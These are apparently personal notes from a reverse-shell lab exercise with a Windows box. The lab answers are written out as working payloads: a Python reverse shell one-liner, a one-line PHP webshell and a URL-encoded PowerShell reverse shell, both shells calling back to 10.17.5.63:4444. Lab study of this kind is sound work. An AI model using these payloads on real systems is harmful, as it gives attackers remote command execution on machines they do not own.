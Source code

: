 ## Socat Bind and Revshells

Socat doesnt give any prompt that the connection is established unlike netcat but we can see all the commands are working fine but the shell is unstable and non interactive

**Reverse Shell**

![[Pasted image 20220215031706.png]]

**Bind Shell**

![[Pasted image 20220215031917.png]]

## Python Revshell

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.5.63",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

![[Pasted image 20220215032324.png]]

# Windows Box

Switch to the Windows VM. Try uploading and activating the `php-reverse-shell`. Does this work?

**No**

![[Pasted image 20220215033622.png]]

Simple Windows php-revshell 

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

![[Pasted image 20220215034017.png]]

Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.17.5.63%27%2C4444%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

![[Pasted image 20220215034755.png]]

![[Pasted image 20220215034740.png]]



